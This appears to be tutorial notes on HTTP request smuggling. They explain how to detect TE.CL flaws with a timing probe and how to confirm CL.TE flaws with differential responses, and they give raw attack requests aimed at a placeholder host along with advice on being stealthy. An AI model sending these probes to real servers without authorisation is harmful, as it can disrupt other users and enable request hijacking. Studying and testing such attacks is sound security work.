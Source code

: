 ## Finding TE.CL Vulnerability using timing Technique
- if it vulnerable it TE.CL then the following request will cause time delay
```js
POST / HTTP/1.1
Host: vuln-web.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
since the front-end server use `Transfer-encoding` header it will forward only part of this request, omitting `X`.
back-end server uses `Content-Length` header, expects more content in the message body and waits for the remaining content to arrive, this will cause observable time delay.

#### NOTE
```
The timing-based test for TE.CL vulnerabilities will potentially disrupt other application users if the application is vulnerable to the CL.TE variant of the vulnerability. So to be stealthy and minimize disruption, you should use the CL.TE test first and continue to the TE.CL test only if the first test is unsuccessful.
```

## Confirming HTTP Request Smuggling Using differential Response
- when a probable request smuggling vulnerability has been detected, we need to obtain further evidence for this vulnerability by exploiting it to trigger difference in `Contents of application's response`
- this involves sending 2 request
	- `Attack` request that is designed with the processing of the next request.
	- Normal request
- if the response to the normal request contains the expected interference, then vulnerability is confirmed
```js
POST /search HTTP/1.1
Host: vuln-web.com
Content-Type: application/x-www-form-urlencode
Content-Length: 15

Query=smuggling 
```
this request receives `HTTP response` with status code 	200 , containing some search results.
- the `attack request` that needed to interfere with this requests depends on the variant of request smuggling is present.
### Confirming CL.TE vulnerabilities using Differential responses
- for CL.TE vuln. we need to send attack request like this 
```js
POST /search HTTP/1.1
Host: vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0


GET /404 HTTP/1.1
foo: x
```